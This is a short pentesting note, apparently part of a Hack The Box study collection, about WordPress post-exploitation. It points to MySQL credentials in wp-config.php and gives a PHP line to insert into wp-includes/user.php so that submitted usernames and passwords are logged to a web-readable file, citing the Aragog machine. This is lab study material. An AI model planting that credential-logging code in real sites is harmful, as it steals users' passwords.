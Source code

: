 Things to look for:
- Credentials of the mysql datbases in the __wp-config.php__ in order to later on, make use of that credentials in other users or run the command `mysql -u {USER} -p` and enter the password obtained to list all the data from the database
- Edit the file in `{wp-dir}/wp-includes/user.php` in order to, if a script makes use of an autologin or smth similar, add some extra code to leak the credentials. A practical example could be the machine [Aragog - Writeup](</HTB Machines/WriteUps/Aragog - Writeup.md>). The code to exploit it is `file_put_contents("/var/www/html/dev_wiki/log.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND)` in the verification part of the code (Almost at the beggining of the file).
